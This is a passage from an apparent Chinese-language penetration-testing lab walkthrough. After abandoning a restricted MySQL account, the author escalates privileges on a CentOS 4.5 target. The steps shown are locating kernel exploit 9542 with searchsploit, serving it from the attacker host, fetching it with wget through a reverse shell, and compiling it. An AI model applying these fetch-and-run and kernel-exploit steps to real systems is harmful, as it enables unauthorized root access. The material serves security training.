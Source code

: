 ```yacas
         Execute_priv: N
      Repl_slave_priv: N
     Repl_client_priv: N
             ssl_type: 
           ssl_cipher: 
          x509_issuer: 
         x509_subject: 
        max_questions: 0
          max_updates: 0
      max_connections: 0
```

目前的普通账号高度受限，遂放弃 SQL 方向

#### Kernal 内核漏洞

之前有确定操作系统为 CentOS，先进一步获取系统版本，然后上传一份对应版本的漏洞脚本

```yacas
/* 靶机反向 Shell */
bash-3.00$ cat /etc/lsb-release.d
CentOS release 4.5 (Final)
// 收集信息：靶机为 CentOS 4.5

/* 攻击机 Shell */
> searchsploit centos 4.5
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Cor | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfutex' Local Privilege E | linux/local/35370.c
--------------------------------------------------------------------- ---------------------------------
> searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
    Codes: CVE-2009-2698
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/9542.c

> python3 -m http.server 1145
Serving HTTP on 0.0.0.0 port 1145 (http://0.0.0.0:1145/) ...
// 攻击机使用 http 上传 9542.c

/* 靶机接收文件，编译运行 */
bash-3.00$ cd /tmp
bash-3.00$ wget 10.0.2.3:1145/9542.c
--15:22:52--  http://10.0.2.3:1145/9542.c
           => `9542.c'
Connecting to 10.0.2.3:1145... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,535 (2.5K) [text/x-csrc]

    0K ..                                                    100%  109.89 MB/s

15:22:52 (109.89 MB/s) - `9542.c' saved [2535/2535]
    
bash-3.00$ gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
```